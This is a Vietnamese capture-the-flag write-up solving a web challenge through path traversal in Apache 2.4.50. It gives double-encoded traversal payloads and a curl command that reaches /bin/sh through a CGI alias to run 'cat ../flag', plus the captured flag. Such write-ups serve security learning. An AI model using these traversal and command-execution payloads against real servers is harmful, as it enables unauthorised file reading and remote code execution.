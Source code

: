 - Như vậy là Apache 2.4.50, ta có thể dùng `%%32%65%%32%65/` hoặc `.%%32%65/` thay thế cho `../`

- Có một lưu ý là khi đọc `httpd.conf`, hãy để ý đến dòng `ScriptAlias` để biết liệu có alias nào thay cho `cgi-bin` không, ví dụ như trong bài này:

    ```ScriptAlias /nothingspecial/ "/usr/local/apache2/cgi-bin/"```

- Và để ý `DocumentRoot` như trong bài:

    ```DocumentRoot "/usr/local/apache2/htdocs"```

- Như vậy để truy cập được `/` thì ta cần 4 cặp `../`, thay thế alias và 2 cách encode đã kể trên, ta có payload:

    ```/nothingspecial/.%%32%65/.%%32%65/.%%32%65/.%%32%65/flag```

- Nhưng, như vậy liệu có đúng? Thử với `curl` và đây là kết quả:

    ![IAW301_2](img/IAW301_2.png)

- Thực tế có một cách khác, ta sẽ dùng đến `/bin/sh` và option `--data` của `curl` để mở file, đơn giản như sau:

    ```shell
    curl 'http://139.180.208.121:8889/nothingspecial/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh' --data 'echo; cat ../flag'
    ```

- Và đây là kết quả:
  
    ![IAW301_3](img/IAW301_3.png)

- Flag: `FUSEC{970c5c12bc41fd2783748e73fccf99b0}`

> Xin lỗi cả team noname vì mỡ đến miệng rồi mà để tuột mất vì một dấu % thừa :'(
